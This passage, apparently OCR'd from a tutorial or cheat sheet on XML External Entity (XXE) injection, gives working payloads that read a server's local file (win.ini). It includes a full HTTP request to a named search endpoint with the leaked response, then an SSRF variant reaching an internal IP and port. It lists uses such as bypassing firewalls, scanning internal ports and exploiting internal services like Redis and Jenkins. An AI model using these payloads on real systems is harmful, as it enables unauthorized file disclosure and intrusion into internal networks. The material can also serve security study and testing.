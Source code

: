 ```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///windows/win.ini"> ]>
<Search><SearchTerm>&xxe;</SearchTerm></Search>
```

### What’s Happening:

* You define an entity `xxe` that pulls the local file `/windows/win.ini`.
* You place that entity `&xxe;` where input is reflected back.
* If the parser is vulnerable, it fetches and returns file contents in the response.

---

## 💣 Example: XXE in Action

### Request:

```
POST /search/128/AjaxSearch.ashx HTTP/1.1
Content-Type: text/xml

<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///windows/win.ini"> ]>
<Search><SearchTerm>&xxe;</SearchTerm></Search>
```

### Response:

```xml
<Search>
  <SearchResult>No results found for expression: ; for 16-bit app support
  [fonts]
  [extensions]
  ...
</SearchResult></Search>
```

Boom. You just read files on the server.

---

## 🌐 XXE Over HTTP – SSRF via XML

It’s not just local files. You can define entities to pull content over the network.

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://192.168.1.1:25"> ]>
<Search><SearchTerm>&xxe;</SearchTerm></Search>
```

### Now You Can:

* **Bypass firewalls** using the app as a proxy
* **Scan internal ports** via timing or banner responses
* **Exploit internal services** like Redis, Elasticsearch, Gogs, Jenkins

---